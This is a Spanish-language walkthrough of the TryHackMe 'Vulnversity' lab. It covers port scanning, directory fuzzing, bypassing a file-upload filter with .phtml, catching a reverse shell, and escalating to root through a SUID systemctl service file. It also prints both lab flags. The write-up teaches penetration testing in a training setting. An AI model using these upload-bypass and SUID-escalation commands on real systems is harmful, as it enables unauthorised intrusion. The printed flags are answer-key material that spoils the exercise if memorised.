 ## Máquina Vulnversity - Tryhackme

### 1. Reconocimiento
Comando Nmap para realizar escaneo de puertos:
- nmap -sS -n -Pn -p- --open --min-rate 5000 <ip-address> -oN <filename>
![Escaneo Inicial](./screenshots/recon.png)

-sS: Stealth Scan para agilizar el escaneo
-n: Evita el DNS.
-Pn: Evita realizar el descubrimiento de host.
-p-: Busca en los 65535 puertos.
--open: Filtra solamente por puertos abiertos.
--min-rate 5000: Trazar 5000 paquetes por segundo.
<ip-address>: IP objetivo.
-oN: Formato Nmap para guardar el output.
<filename>: Nombre del output.

Puertos encontrados: 21(FTP), 22(SSH), 139(SMB), 445(SMB), 3128(SQUID-PROXY), 3333(HTTP).
Comando Nmap para buscar versión y servicio que corren para dichos puertos:
- nmap -sCV -p21,22,139,445,3128,3333 <ip-adress> -oN <filename>

-sCV: Lanza los scripts más populares de reconocimiento y enumera las versiones de los servicios.
-p<ports>: Enumera los puertos encontrados.

[Evitar FTP y SMB] El script de reconocimiento no nos dice que podemos acceder a el servicio FTP ni tampoco a SMB, ya adelanto que no hay nada que podamos hacer con dichos servicios.
[Visitar la web] Vamos a la web "http://<ip-address>:3333/
[Hacemos un reconocimiento de la web] Buscamos y analizamos posibles pistas que nos de para poder aprovecharnos de ello.
Usamos "Ctrl + U" para ver el ćodigo fuente en búsqueda de:
- Comentarios que nos otorgue credenciales, pistas, rutas, información sensible, etc.
Como no vemos nada

2.1 Fuzzing
Utilizamos la herramienta Gobuster para hacer fuerza bruta en busqueda de directorios ocultos en la web.
Comando utilizado:
gobuster dir -u http://10.201.64.246 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error -t 200 
-u: URL objetivo.
-w: Diccionario empleado para el ataque de fuerza bruta.
--no-error: Para que no se muestren los errores en el output.
-t 200: Para lanzar peticiones con 200 hilos de proceso y agilizar el proceso.

Directorios encontrados:
/images
/css
/js
/fonts
/internal -> Potencial

[Visitamos /internal] Esta ruta permite la subida de archivos. Podemos intentar subir un código malicioso en php para ganar acceso al sistema.
Un simple payload en php para ver si la máquina permite la extensión .php
El servidor no permite la extensión .php por lo que debemos probar otro tipo de extensión que ejecute php, ya sea:
- php5
- phtml
etc

3. Explotación
[Usamos Burpsuite] para agilizar el proceso y estar probando manualmente cada extensión, podemos usar la herramienta Intruder de Burpsuite para cargar una serie de extensiones que se irán probando, y la respuesta del servidor podemos deducir que esa extensión es válida.
Dependiendo la longitud de la respuesta podemos determinar si es válida o no. Vemos que extensión ".phtml" tiene mayor longitud que las demás.
Podemos cambiar la extensión y probar con .phtml para subir el script malicioso.
¡¡Exitoso!!
Ahora nos dirigimos a la ruta /uploads para ver el archivo.

4. Escalar privilegios.
Nos ponemos en escucha con Netcat en nuestra máquina local en el puerto 443. Cuando hagamos click sobre el archivo, nos entablaremos una reverse shell con acceso al sistema objetivo.
Una vez dentro del sistema, ejecutamos comandos de enumeración del sistema.
- whoami: muestra el usuario actual
- id: muestra los grupos a los que pertenece el usuario actual
- lsb_release -a: información del sistema, kernel, etc.
- cat /etc/passwd: usuarios y servicios del sistema
- sudo -l: comandos que podemos ejecutar como root sin proporcionar contraseña
- find / -perm -4000 2>/dev/null: busca por archivos SUID en el sistema.

[/home] encontramos un usuario de nombre "bill". Dentro de este directorio, encontramos la flag -> 8bd7992fbe8a6ad22a63361004cfcedb

Debemos enumerar los archivos SUID los cuales podemos aprovecharnos de ello.
Utilizando el comando: find / -perm -4000 2>/dev/null
podemos buscar por binarios SUID.
Opcionalmente, podemos concatenar con: xargs ls -l
para ver propietario y permisos.

Una ves realizado el comando, vemos los típicos binarios del sistema, también otro que podemos aprovecharnos como lo es:
systemctl
[Búsqueda en GTObins] en esta página, podemos encontrar como escalar privilegios con binarios con diferentes permisos. En este caso, SUID.

[SUID Payload] Vemos una serie de comandos que podemos ejecutar como root.
Lo primero que haremos será esto:

echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash"
[Install]
WantedBy=multi-user.target' > /tmp/root.service

Lo que hace este payload es copiar la bash de root en el directorio /tmp/ con nombre de archivo "rootbash"
Luego, concatena otro comando "chmod +s" para otorgarle permisos SUID a la bash que nos permitirá ejecutar la bash como root.
Luego, guarda todo este "echo" en /tmp/root.service

Despues de hacer todo este payload.
Ejecutamos: /bin/systemctl link /tmp/root.service
Una vez ejecutado, proseguimos con: /bin/systemctl enable --now /tmp/root.service

Cuando ejecutemos este comando, ya tendremos copiada la bash en /tmp con permiso SUID.

Ejecutamos: /tmp/rootbash -p
para tener una shell como usuario root
whoami para verificar si somos root.
Máximos privilegios obtenidos!!

a58ff8579f0a9270368d33a9966c7fd5 -> flag root

